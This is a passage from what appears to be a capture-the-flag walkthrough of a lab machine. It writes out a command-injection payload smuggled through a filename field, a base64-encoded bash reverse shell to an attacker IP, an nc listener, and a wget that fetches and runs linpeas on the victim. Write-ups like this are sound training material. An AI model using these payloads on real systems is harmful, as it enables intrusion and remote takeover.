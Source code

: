 - Anything preceding the `|` will be executed locally on the file-system.
- Give it a test go:

![image](https://0xc0rvu5.github.io/docs/assets/images/20230203022952.png)

- After some trial and error on `reverse-shells` you find success with a `bash` reverse shell which is `base64` encoded.
```bash
echo "bash -c 'exec bash -i &>/dev/tcp/10.10.16.9/4444 <&1'" | base64

YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTAuMTYuOS80NDQ0IDwmMScK
```

- On host ensure there is a `nc` listener:
```bash
rlwrap nc -lvnp 4444
```

- In `Zap`:

```bash
filename="echo 'YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTAuMTYuOS80NDQ0IDwmMScK' | base64 -d | bash |"
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230203023533.png)

- Generate a proper shell:

```bash
# since python3 --version returns true
python3 -c 'import pty;pty.spawn("/bin/bash")'

# clear functionality
export TERM=xterm
```

- After some manual enumeration on `www-data` you bust out `linpeas.sh`

- On Host:

```bash
python -m http.server
```

- On victim:
```bash
cd /tmp
wget http://10.10.16.9:8000/linpeas.sh
chmod 777 linpeas.sh
./linpeas.sh > out.file
```

- There seems to be something going on in the `usr/local/investigation` directory:

![image](https://0xc0rvu5.github.io/docs/assets/images/20230203024423.png)

- Within the `/usr/local/investigation` directory you will find:
	- `'Windows Event Logs for Analysis.msg'`
- `msg` files are Microsoft Outlook email message files that contain the content of an individual email, including the sender, recipient, subject, message body, attachments, and other details. They are typically used to store and transfer email messages in a proprietary format, and can be opened and viewed using Microsoft Outlook or other compatible email clients.
- Let us send it over to our host machine to investigate it.

